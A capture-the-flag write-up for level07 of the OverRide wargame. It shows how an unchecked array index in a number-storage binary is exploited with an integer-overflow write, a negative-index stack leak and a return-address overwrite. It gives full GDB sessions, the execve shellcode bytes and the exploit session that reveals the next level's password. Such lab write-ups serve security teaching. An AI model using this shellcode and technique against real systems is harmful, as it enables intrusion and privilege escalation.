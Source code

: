 # level07

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

Basically, this program is a number storage service. `main` declares an array of a hundred unsigned integers that the user can handle via differents commands read from the standard input :
- `read` calls an associated function `read_number` that asks for an index of the array to look at and prints the value stored at this address.
- `store` calls `store_number` that first asks the user for a value to store, then for an index where to put it. A condition prevents us to store any value every 3 indexes (0, 3, 6...).
- `quit` obviously exits the program.

The first vulnerability we notice is that the index is never checked by any functions. The input is read by `scanf` which interprets it as an unsigned integer, then used as it is to move through the array.

We expect to use this lack of security to read/write almost everywhere on the stack, especially at the return address of `main` in order to redirect the execution flow. Our idea is to inject some shellcode, as we did many times in previous levels, but we are confronted to some difficulties here.

At the beginning of the execution, the program deletes any argument and environment variable that could have been supplied, so we cannot store our shellcode this way. Therefore, the only area available from our knowledge is the array used to store numbers, but we need to find a way to bypass the restriction of the forbidden indexes.

Let's take a look at the function `store_number` to understand how it handles the index values we send.

```gdb
gdb-peda$ pd store_number
Dump of assembler code for function store_number:
    [...]
    0x08048666 <+54>:    call   0x80485e7 <get_unum>        ; get the index by calling scanf("%u", &number)
    0x0804866b <+59>:    mov    DWORD PTR [ebp-0xc],eax     ; store it to [ebp-0xc]
    [...]
    0x080486c2 <+146>:    mov    eax,DWORD PTR [ebp-0xc]
    0x080486c5 <+149>:    shl    eax,0x2                    ; shift left twice => multiply by four
    0x080486c8 <+152>:    add    eax,DWORD PTR [ebp+0x8]    ; [ebp+0x8] is the array address
    0x080486cb <+155>:    mov    edx,DWORD PTR [ebp-0x10]   ; [ebp-0x10] is the value we want to store
    0x080486ce <+158>:    mov    DWORD PTR [eax],edx        ; store the value at the offset/index
    [...]
```

The shift operation here is very interesting. It will transform the index we provide to get the effective offset (in byte) where to store the value. Basically, if we want to store a value at the 2nd cell of our unsigned integers array, we need to move to `array address + (2 * 4)` since an integer is 4-byte long. Pretty obvious in fact.

By mixing this information with the use of an integer overflow, we will be able to write at the forbidden indexes. Sweet !

## Exploit

We first use GDB in order to find the offset of the saved `main` return address from the array.

```gdb
gdb-peda$ b *0x0804892b                             ## <read_number> call address, easy way to find the array address with peda display
Breakpoint 1 at 0x804892b
gdb-peda$ r
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read
=> 0x804892b <main+520>:	call   0x80486d7 <read_number>
Guessed arguments:
arg[0]: 0xffffd544 --> 0x0                          ## array address
Breakpoint 1, 0x0804892b in main ()

gdb-peda$ info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 called by frame at 0xffffd780
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c                                 ## saved EIP / main return address
```

Now that we have both saved EIP and array addresses, we can find the offset with a simple subtraction.

```python
>>> 0xffffd70c - 0xffffd544
456                             ## bytes offset
>>> 456 / 4
114                             ## array index representation
```

Guess what ? `114 % 3 = 0` so 114 is part of the forbidden indexes. Hopefully it is not a problem anymore :-)
From here, we have tried to perform the exploit, and have failed because the array address `0xffffd544` that we have stored at the EIP address to jump in was bad. Why ? because GDB alter the stack size by adding / changing environment variables.

Looking for a way to get the array address when running the program in an "regular" environment, we found out that we could use a negative index to dump lower stack addresses than the array one. We use gdb once again to find the offset between the array and its address pushed on stack when `read_number` is called.

```gdb
gdb-peda$ b *0x80486da                              ## beginning of <read_number>
Breakpoint 1 at 0x804892b
gdb-peda$ r
=> 0x80486da <read_number+3>:	sub    esp,0x28
Breakpoint 1, 0x080486da in read_number ()

gdb-peda$ x $ebp+8
0xffffd520:	0xffffd544
```

```python
>>> 0xffffd544 - 0xffffd520
36
>>> 36 / 4
9
```

Good, we will read the index `-9` in order to get the right array address to inject at the `main` return address.

We have almost everything we need now. We use a tiny shellcode (21 bytes), split it in 4-byte parts and reverse the bytes order in each part, according to the endianness. We will use the 6th first indexes of the array to store this shellcode. Let's compute the values needed, then start the exploit.

execve("/bin/sh") shellcode : `"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"`

```python
# Shellcode values
>>> 0x99580b6a
2572684138
>>> 0x2f2f6852
791636050
>>> 0x2f686873
795371635
>>> 0x896e6962
2305714530
>>> 0xcdc931e3
3452514787
>>> 0x80
128

# Integer overflow for indexes 0 and 3 
>>> (2**32) / 4
1073741824
>>> (2**32 + (4 * 3)) / 4
1073741827

# Integer overflow for index 114 (EIP)
>>> (2**32 + (4 * 114)) / 4
1073741938
``` 

```console
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 2572684138
 Index: 1073741824
 Completed store command successfully
Input command: store
 Number: 791636050
 Index: 1
 Completed store command successfully
Input command: store
 Number: 795371635
 Index: 2
 Completed store command successfully
Input command: store
 Number: 2305714530
 Index: 1073741827
 Completed store command successfully
Input command: store
 Number: 3452514787
 Index: 4
 Completed store command successfully
Input command: store
 Number: 128
 Index: 5
 Completed store command successfully
Input command: read
 Index: -9
 Number at data[4294967287] is 4294956388           # this is the address of the array
 Completed read command successfully
Input command: store
 Number: 4294956388                                 # that we put in the EIP address
 Index: 1073741938
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
